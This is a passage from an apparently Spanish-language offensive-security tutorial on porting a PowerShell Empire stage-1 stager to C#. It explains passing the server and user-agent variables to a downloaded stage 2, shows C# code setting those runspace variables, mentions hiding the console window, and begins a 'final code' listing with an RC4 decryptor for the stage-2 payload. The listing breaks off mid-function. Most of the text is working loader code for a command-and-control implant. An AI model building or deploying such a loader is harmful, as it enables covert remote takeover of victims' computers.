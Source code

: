 ```console
```console

Antes de usar el método Invoke(), necesitamos agregar dos variables a la ecuación, que son $ser y $u. Si observas el valor de los datos (stage 2), notarás que ejecuta una llamada de función de Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u así que, necesitamos pasar las variables $ser y $u para obtener la ejecución, de lo contrario, obtendríamos un error.

```console
// Create the variables $ser and $u which are part of the downloaded stage2
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
```console

Finalmente, agregué algunas funciones adicionales para ocultar la ventana de cmd, encontrarás más información acerca de cómo hacerlo en los comentarios. Ahora pongamos el código C#  junto y ejecutemos nuestra payload de Empire en C#. El código final debería verse así:

```console
using System;
using System.Collections.Generic;
using System.Linq;
using System.Management.Automation;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
 
namespace PSEmpire_Stage1
{
    class Program
    {
        // RC4 Class to decrypt the stage 2 data
        // Created by Jeong ChangWook. Source https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4
        public class RC4
        {
            public static byte[] Encrypt(byte[] pwd, byte[] data)
            {
                int a, i, j, k, tmp;
                int[] key, box;
                byte[] cipher;
 
                key = new int[256];
                box = new int[256];
                cipher = new byte[data.Length];
 
                for (i = 0; i < 256; i++)
                {
                    key[i] = pwd[i % pwd.Length];
                    box[i] = i;
                }
                for (j = i = 0; i < 256; i++)
                {
                    j = (j + box[i] + key[i]) % 256;
                    tmp = box[i];
                    box[i] = box[j];
                    box[j] = tmp;
                }
                for (a = j = i = 0; i < data.Length; i++)
                {
                    a++;
                    a %= 256;
                    j += box[a];
                    j %= 256;
                    tmp = box[a];
```
